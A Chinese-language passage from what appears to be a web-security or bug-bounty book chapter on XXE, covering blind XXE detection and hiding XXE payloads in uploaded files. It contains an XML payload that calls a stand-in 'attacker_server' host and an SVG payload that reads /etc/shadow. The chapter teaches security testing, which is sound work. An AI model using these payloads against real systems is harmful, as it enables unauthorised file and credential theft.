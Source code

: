 如果服务器接收 XML 输入，但没有在 HTTP 响应中返回 XML 文档，你可以改为测试盲 XXE。盲 XXE 攻击通常不是通过从服务器的响应中读取文件来窃取数据，而是通过让目标服务器向攻击者的服务器发送请求，将泄漏的信息提取出来。

首先，你需要确保服务器能够进行外部连接，方法是让目标服务器向你的服务器发出请求。你可以按照第十三章中的说明设置回调监听器。设置监听器来发现 XXE 的过程与设置 SSRF 查找是相同的。尝试让外部实体加载你机器上的资源。为了绕过常见的防火墙限制，你应该首先测试 80 和 443 端口，因为目标的防火墙可能不允许其他端口的外部连接：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY test SYSTEM "http://attacker_server:80/xxe_test.txt">
]>
<example>&test;</example>
```

然后，你可以搜索服务器的访问日志，查找对该特定文件的请求。在这种情况下，你需要查找对 *xxe_test.txt* 文件的 GET 请求。一旦确认服务器能够发起外部请求，你就可以尝试使用接下来的章节中讲解的技术来外泄文件。

### 步骤 4：将 XXE Payload 嵌入到不同的文件类型中

除了测试 HTTP 请求体中的 XXE 外，你还可以尝试将包含 XXE Payload 的文件上传到服务器。文件上传端点和文件解析器通常不像常规端点那样受到 XXE 防护机制的保护。而将 XXE Payload 隐藏在不同的文件类型中意味着，即使应用程序限制了可以上传的文件类型，你也能上传你的 Payload。

本节仅展示了如何将 XXE Payload 嵌入到各种文件类型中的几个示例。你应该能通过搜索互联网找到更多示例。

要在 SVG 图像中嵌入 XXE Payload，你需要先将图像以文本文件的形式打开。以这个蓝色圆形的 SVG 图像为例：

```
<svg width="500" height="500"> <circle cx="50" cy="50" r="40" fill="blue" />
</svg>
```

通过直接将 DTD 添加到文件中并在 SVG 图像中引用外部实体来插入 XXE Payload。然后，你可以将文件保存为 *.svg* 文件并上传到服务器：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY test SYSTEM "file:///etc/shadow">
]>
<svg width="500" height="500"> <circle cx="50" cy="50" r="40" fill="blue" /> <text font-size="16" x="0" y="16">&test;</text>
</svg>
```

微软 Word 文档（*.docx* 文件）、PowerPoint 演示文稿（*.pptx* 文件）和 Excel 工作表（*.xlxs* 文件）都是包含 XML 文件的归档文件，因此你也可以将 XXE Payload 嵌入其中。为此，你应该首先解压文档文件。例如，我在 Mac 上使用 Unarchiver 软件提取文件。你应该能看到几个包含 XML 文件的文件夹（图 15-1）。

![f15001](img/f15001.png)
